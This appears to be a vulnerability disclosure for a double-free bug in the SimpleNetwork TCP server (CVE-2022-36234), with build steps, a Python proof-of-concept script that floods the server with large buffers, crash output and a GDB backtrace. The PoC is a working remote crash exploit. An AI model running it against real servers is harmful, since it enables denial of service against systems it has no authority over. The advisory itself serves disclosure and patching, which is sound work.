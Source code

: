 # Overview

SimpleNetwork TCP Server commit 29bc615f0d9910eb2f59aa8dff1f54f0e3af4496 was discovered to contain a double free vulnerability which is exploited via crafted TCP packets. Triggering the double free will allow client to crash any SimpleNetwork TCP server remotely. In other situations, double free vulnerabilities can cause undefined behavior and potentially code execution in the right circumstances.

# Reproduction

To ensure you have the standard build tools required to compile the library, install the following packages (ost systems this will already be installed):

``
sudo apt-get install build-essential git
``

The vulnerability can be reproduced by sending consecutive requrests to the server containing a large buffer of characters in a TCP packet.  First, compile the 'libSimpleNetwork' library and example server provided in the source code:

```
git clone https://github.com/kashimAstro/SimpleNetwork.git
cd SimpleNetwork
git checkout 29bc615f0d9910eb2f59aa8dff1f54f0e3af4496
cd src
make
cd ../example-server
make
```

### Start the example-server:

```
./server 80 1
```

### Save the following python3 proof of concept script to a file (modify the url as needed):
```
import socket

host = "localhost"
port = 80                   # The same port as used by the server
buf = b'A'*10000

try:
    for i in range(50):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.sendall(buf)
        data = s.recv(1024)
        s.close()
        print('Received', repr(data))
except:
    print("Completed...")
```

### Execute the python3 script:

```
python3 poc.py
```

### Crash verification:
If successful, the server will crash and you will see the following output from the application:
```
segmentation fault  ./server 80 1
```

### GDB backtrace:
```
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────────────────────────────────────────
 RAX  0x21
 RBX  0x7fffec000e60 ◂— '2023-1-31 11:50:57\r\n'
 RCX  0x0
 RDX  0x555555580ed0 —▸ 0x5555555811b0 ◂— 0x555555581
 RDI  0x55555556e3d0 (TCPServer::newsockfd) —▸ 0x555555580ed0 —▸ 0x5555555811b0 ◂— 0x555555581
 RSI  0xffffffffffffffff
 R8   0x0
 R9   0x640
 R10  0xa3d70a3d70a3d70b
 R11  0x293
 R12  0x14
 R13  0x0
 R14  0x7ffff7a1dc90 —▸ 0x7ffff7a1dcb0 —▸ 0x7ffff7a1dcf0 —▸ 0x7ffff7a1dd30 —▸ 0x7fffe8001bf0 ◂— ...
 R15  0x7ffff621c000 ◂— 0x0
 RBP  0x7ffff6a1bc30 —▸ 0x7ffff6a1bed0 ◂— 0x0
 RSP  0x7ffff6a1bc00 ◂— 0x14
 RIP  0x55555555909e ◂— mov    eax, dword ptr [rax]
─────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0x55555555909e    mov    eax, dword ptr [rax]
   0x5555555590a0    mov    ecx, 0
   0x5555555590a5    mov    rdx, r12
   0x5555555590a8    mov    rsi, rbx
   0x5555555590ab    mov    edi, eax
   0x5555555590ad    call   send@plt                <send@plt>
 
   0x5555555590b2    nop    
   0x5555555590b3    add    rsp, 0x20
   0x5555555590b7    pop    rbx
   0x5555555590b8    pop    r12
   0x5555555590ba    pop    rbp

```


# References

* https://owasp.org/www-community/vulnerabilities/Doubly_freeing_memory
* https://cwe.mitre.org/data/definitions/415.html
* https://github.com/kashimAstro/SimpleNetwork/issues/22
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-36234
